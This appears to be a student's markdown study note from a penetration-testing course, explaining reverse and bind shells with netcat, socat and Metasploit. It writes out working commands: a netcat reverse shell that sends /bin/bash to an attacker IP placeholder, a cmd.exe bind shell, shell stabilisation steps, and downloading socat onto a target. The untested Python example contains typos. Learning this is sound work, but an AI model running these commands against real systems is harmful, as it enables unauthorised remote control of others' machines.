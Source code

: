 ```yaml
---
tags:
  - programming/linux
  - programming/hacking/networking
---
```


# Not a whole lot of stuff on this on

This lesson is mostly just learning it and pressing complete

# Tools used

## Netcat

Basically a swiss army knife of networking. Does a lot of manual stuff. Most importantly for what we are doing is it can
receive reverse shells and use them. The problem is that these are kind of unstable - we'll get to that

## Socat

Super Netcat! Syntax is harder and not installed by default

## Metasploit - multi/handler

See [Metasploit](Metasploit.md)

Part of metasploit framework, but also stand alone. Use `auxiliary/multi/handler` module to receive reverse shells. Pretty stable, opens a meterprester shell and handles
staged payloads.

## Msfvenom

Part of metasploit framework as well and a standalone. Can generate payloads on the fly. Can do more than reverse and
bing shells, but that's what we are going to use it for.

# Types of shell

## Reverse shell

See [Reverse Shells](Reverse%20Shells.md)

The target computer reaches out to your computer and then you listen on the local computer for the connection. This is
good for bypassing firewalls on the target computer, but you have to make sure your firewall will allow the connection.

## Bind shell 

You connect to a part on the target computer. This case you have to worry about the target firewall. Generally, reverse
shells are easier to use

## Reverse shell example

On the attacking machine run `sudo nc -lvnp 443`. This will listen for incoming messages on part 443. 

On the target machine run `nc <LOCAL-IP> <PORT> -e /bin/bash. How to find the LOCAL-IP and PORT? The PORT is the same
value as above (443) and local IP can be found through `ip a s`

The target will reach out to the attacker and establish a connection.

## Bind shell 

Less common, but let's do it. 

Target: `nc -lvnp <PORT> -e "cmd.exe"`

Attacker: `nc <MACHINE_IP> <PORT>`

Target will run "cmd.exe" on the port. Then the attacker just connects and is done. 

## Interactive vs non-interactive 

The shells that you are used to are "interactive" shells - they allow you to interact with programs after running them.
IE - it responds to what you put in. 

Non-interactive shells do not dothat. Once you enter a command it may or may not return output. This depends on if the
program you run in interactive or non-interactive. For exmaple `python` will not run as it open Python interactively.
`python -c "import os; print os.eniron"` should work as it runs python and the exits. That's my own personal example - I
haven't actually tested it

!! TUTORIAL NOTE !! - `listener` is an alias for `sudo rlwrap nc -lvnp 443`. Don't get confused

# Netcat

Most basic tool for networking. We are going to focus on using shells. Breaking down the command `nc -lvnp <PORT>`

```bash
    nc  # Run netcat
    -l  # run in listen mode
    -v  # Verbose output
    -n  # No hostnames or DNS (look it up - not explained)
    -p  # Port to use will follow
```

Can use any port you want, but anything below 1024 will require sudo. BUT.... using a common port is more likely to past
the firewall (80, 443, 53). Good example `sudo nc -lvnp 443`

## Bind shells

Bind shells are done with `nc <IP_ADD> <PORT>`.

## Stabilizing Techniques

Netcat shells kind of suck. They are unstable `Ctrl+C` kills the whole thing, they are non-interactive and have with
formatting issues. Pretty easy to do on Linux, not so easy to do on Windows.

### 1 - Python

Only applies to Linux since they almost always have Python. 

```bash
    # Create the shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    
    # get terminal commands set up
    export TERM=xterm

    # background shell (ctrl+z)
    # In our terminal
    stty raw -echo; fg
```

Last line is a little complicated - turns off our termianl echo - tab completion, arrow keys and ctrl+c. Then bring the
shell back up. I think this is so we don't accidentally kill the shell we just made

If the shell dies, need to do `reset` in local shell to get it working again

### 2 - rlwrap

Gives us history, autocomplete and arrow keys once in shell, but ctrl+c might need some work. Not installed on kali by
default `sudo apt install rlwrap`

To use rlwrap: `rlwarp nc -lvnp <PORT>`

Works like magic to stabilize the shell from netcat. Particularly useful on Windows as it can be hard to get a shell any
other way. Stabilize on Linux like above - send to background and then `stty raw -echo;fg`

### 3 - socat

Limited to Linux targets. First need to move socat static compiled binary up to the target machine. Can move the file by
creating a server on local machine and getting the file on the target

```bash
    # On attacking
    sudo python3 -m http.server 80

    # On target - Linux
    wget <LOCAL-IP>/socat -O /tmp/socat

    # Or.... Windows.... 
    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
That is all the is covered here - going over socat later


### Change terminal tty size

Useful because the reverse shell is pretty stupid and doesn't configure the size automically

```bash
    stty -a     # current setting
    stty rows <NUMBER>  # Set rows 
    stty cols <NUMBER>  # Set columns 
```


# Socat


